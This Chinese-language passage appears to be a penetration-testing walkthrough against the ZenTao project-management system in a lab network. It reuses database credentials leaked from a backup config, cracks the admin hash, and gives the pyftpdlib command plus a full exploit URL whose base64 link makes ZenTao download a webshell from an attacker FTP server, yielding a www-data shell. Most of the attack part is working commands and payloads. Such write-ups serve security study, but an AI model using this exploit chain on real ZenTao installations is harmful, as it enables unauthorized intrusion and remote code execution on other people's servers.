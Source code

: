 通过对备份文件的审计，我们得到禅道的数据库配置文件为：/zentaopms/config/my.php

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0147ed05e6e7ffa86b.png)

得到数据库用户名为:target1 密码：qwer123!@#，在之前的信息收集我们可以得知3306端口对外开放，那么我们进行尝试连接，发现成功连接数据库。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01752f7e1d2f3b3bd7.png)

于是我们检索数据库配置文件发现，后台用户密码hash，然后进行破解得到后台用户名及密码。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0161cac60cfd1c1b88.png)

破解结果

[![](https://p4.ssl.qhimg.com/t01df354a3aa0eb6ad3.png)](https://p4.ssl.qhimg.com/t01df354a3aa0eb6ad3.png)

得到用户名：admin 密码：qazwsx123<br>
利用得到的账号密码成功登录至后台。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a413115582cbab0c.png)

右上角有提示

[![](https://p4.ssl.qhimg.com/t012fcb64925a806861.png)](https://p4.ssl.qhimg.com/t012fcb64925a806861.png)

既然拿到后台权限那么我们开始GETSHELL吧！

开启一个FTP服务，这里使用python模块开启，命令：`python -m pyftpdlib -d /root/ftp -p 21` 注意提前在/root/ftp目录下存放webshell文件。

[![](https://p1.ssl.qhimg.com/t0122ae7126a0e8852e.png)](https://p1.ssl.qhimg.com/t0122ae7126a0e8852e.png)

如上图已经成功开启服务。<br>
FTP webshell地址为`ftp://192.168.174.128/shell.php` 然后将其地址进行base64加密。<br>
然后构建payload并进行访问：<br>`http://192.168.174.132/zentaopms/www/index.php?m=client&amp;f=download&amp;version=1&amp;link=ZnRwOi8vMTkyLjE2OC4xNzQuMTI4L3NoZWxsLnBocA==`<br>
显示保存成功。

[![](https://p0.ssl.qhimg.com/t01449c4d65bb24825d.png)](https://p0.ssl.qhimg.com/t01449c4d65bb24825d.png)

Webshell连接地址：`http://192.168.174.132/data/client/1/shell.php`

[![](https://p4.ssl.qhimg.com/t019a0f091dd238b992.png)](https://p4.ssl.qhimg.com/t019a0f091dd238b992.png)

连接成功！<br>
查看shell权限为www-data

[![](https://p5.ssl.qhimg.com/t01fe0dfb0e433afefd.png)](https://p5.ssl.qhimg.com/t01fe0dfb0e433afefd.png)
